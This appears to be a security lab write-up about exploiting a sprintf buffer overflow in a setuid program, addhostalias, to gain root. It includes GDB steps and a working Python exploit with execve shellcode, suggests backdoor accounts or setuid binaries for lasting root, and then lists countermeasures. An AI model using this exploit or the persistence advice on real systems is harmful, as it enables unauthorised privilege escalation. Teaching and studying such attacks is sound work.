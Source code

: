 # 1 - Gaining root access

For this first part, we will gain root access through a buffer overflow
vulnerability and a malicious shellcode. With a buffer overflow, a
string can overwrite some memory and become executable. While there
exists countermeasures, they aren't implemented here, hence our attack.

## 1.1 - Memory layout and vulnerability

When we look at the source code of `addhostalias.c`, the vulnerability
opportunity is very clear:

```c
void add_alias(char *ip, char *hostname, char *alias) {
    char formatbuffer[256];
    // ...
    sprintf(formatbuffer, "%s\t%s\t%s\n", ip, hostname, alias);
    // fopen
    // ...
}

int main(int argc, char *argv[]) {
    // ...
    add_alias(argv[IPADDR], argv[HOSTNAME], argv[ALIAS]);
    // ...
}
```

We're trying to insert in `formatbuffer` strings without checking their
length. The main function simply reads its arguments and forwards it to
`add_alias`, which will insert it in its buffer. The thing is, what if
our string become too long? If it hits 256 characters or more, we will
exit our buffer and write our string on top of our memory.

![Memory layout](./assets/memory_layout.png)

## 1.2 - Create the exploit

What we want to do is override the return address to jump back in the
buffer and execute the string as if it was some code.

Using GDB, we can verify that the stack is override. First, we run
`gdb /usr/bin/addhostalias`, then `break fopen` since it is the next
function call after our buffer overflow. Next,
```run `python -c "print '3'*250"` D U```. The array is filled using the
first variable, a tab, the second variable, a tab, the third variable,
a new line and a null byte.
`3` encoded in ASCII is 0x33 in hexadecimal, `D` is 0x44 and `U` 0x55,
so looking at the stack content with `x/100x $sp` we know that the array
should end with `... 33 33 33 09 44 09 55 0a 00`.

![Stack content](./assets/stack_content.png)

Using the memory layout above, we can see that the saved frame
pointer is 0xbffffbac and the the return address 0x08048656. This is
also reported by GDB using `info frame`.

![Frame info](./assets/frame_info.png)

![Stack content with highlights](./assets/stack_content_highlighted.png)

Using these informations, it means that we need to change the value at
0xbffffb90 from 0x08048656 (our previous return value) to somewhere
inside our buffer, like 0xbffffaa0.

Now, if we input 256 characters, plus 4 characters for the frame
pointer, we should be able to overwrite the return address to return in
the stack and execute our shellcode as if it was "real" code.

We will use a NOP slide to aim wide and then a payload, the shellcode.
This shellcode will set the real UID and the real group ID from the
EUID, effectively putting ourselves as root. This only works because the
sticky bit is enabled for this file; any program without the sticky bit
will (obviously) not be able to switch to root. Without these
instructions, the shell open would have the same rights as the user who
executed it, i.e. not root, which isn't really interresting.

The following script will send the right shellcode for us, used like
this: `addhostalias $(python exploit.py)`

```python
shellcode = ("\xb9\xff\xff\xff\xff\x31\xc0\xb0\x31\xcd\x80"
            +"\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\xb0"
            +"\x32\xcd\x80\x89\xc3\xb0\x31\xb0\x47\xcd\x80"
            +"\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68"
            +"\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0"
            +"\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90"
            +"\x90\x90\x90\x90\x90\x90\x90\x90\x90")

nopSlide = "\x90" * (256 + 4 - len(shellcode))
newAddr = "\xa0\xfa\xff\xbf"

print nopSlide + shellcode + newAddr, "3", "D"
```

And, with it, we can finally get root access.

![Root access](./assets/root_access.png)

The return address has been override to the stack.

![Address override](./assets/address_override.png)

## 1.3 - Permanent root access

Althouh this root access is limited in time, we can easily make it
permanent with a backdoor. With root access, you can create a new user
with root access and a known password and expose a SSH access.

It is also possible to create a program with the set-user-ID bit. With
this flag enabled, the program will run as root even if it is started as
a regular user. So, even if this buffer overflow get patched, you still
have access to the created program with the set-user-ID bit and can
still possibly open a root terminal and abuse the system from the
inside, without having any root permission whatsoever.

# 2 - Countermeasures

There are several countermeasures to avoid these buffer overflows.

At a language level, some languages are less affected than other by
buffer overflows. Higher-level languages (Java, C#, Python...) usually
checks for out-of-bounds access, thus avoiding buffer overflows as
opposed to lower-level languages (mainly C and C++). It should be noted
though that modern low-level languages like Rust tends to think more
carefully about buffer overflows using "smarter" memory management.

If C / C++ still need to be used, most of the vulnerable standard
library functions have a safer equivalent: `fgets` instead of `gets`,
`strcpy_s` or `strlcpy` over `strcpy`, etc.

Programs can also be compiled with constant values that shouldn't
normally be override. These constants are called canaries, and while
they don't technically prevent buffer overflows they still make it
harder, because now you need to aim more precisely and override this
canary with the right value.

Obfuscation can also be used at compile-time by shuffling around
variable declaration, thus making the original source code less useful
for stack overflow documentation purpose.

On an OS point of view, ASLR can be used to randomize the address space.
The stack can also be marked as non executable with the NX bit. With
these two features, buffer overflows become really limited.Still, return
to libc attacks can be achieved, by jumping back to other legitimate
functions.
